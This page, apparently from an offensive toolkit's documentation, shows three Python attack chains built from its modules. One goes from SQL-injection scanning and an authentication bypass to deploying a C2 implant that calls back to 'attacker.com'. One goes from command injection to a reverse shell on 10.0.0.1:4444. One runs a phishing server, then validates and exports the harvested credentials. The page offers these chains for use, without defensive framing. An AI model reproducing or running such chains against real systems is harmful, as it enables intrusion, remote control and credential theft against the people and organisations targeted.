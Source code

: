 ## Complete Attack Chain Examples

### Example 1: SQL Injection to C2 Implant

```python
from recon.web_scanner import WebScanner
from initial_access.sqli_exploit import SQLiExploit

# Step 1: Scan for SQL injection
scanner = WebScanner()
vulns = scanner.scan_url('http://target.com/page', {'id': '1'})

# Step 2: Exploit discovered vulnerability
if vulns:
    exploit = SQLiExploit('http://target.com')

    # Try authentication bypass
    result = exploit.auth_bypass('/login')

    if result:
        # Deploy C2 implant
        exploit.deploy_implant('/page', 'id', 'http://attacker.com:8443')
```

### Example 2: Command Injection to Reverse Shell

```python
from initial_access.cmd_injection import CmdInjectionExploit

exploit = CmdInjectionExploit('http://target.com')

# Test for vulnerability
is_vuln, technique = exploit.test_vulnerability('/api/exec', 'cmd', 'POST')

if is_vuln:
    # Get reverse shell
    exploit.get_reverse_shell('/api/exec', 'cmd', technique, '10.0.0.1', 4444)
```

### Example 3: Phishing to Credential Validation

```python
from initial_access.phishing_server import PhishingServer
from initial_access.credential_harvester import CredentialHarvester

# Start phishing server (in separate process/thread)
server = PhishingServer(port=8080)

# After collecting credentials...
harvester = CredentialHarvester()
harvester.import_from_phishing('harvested_creds.json')

# Validate credentials
harvester.validate_credentials(validation_url='http://target.com/login')

# Export valid credentials
harvester.export_to_csv('valid_creds.csv', valid_only=True)
```
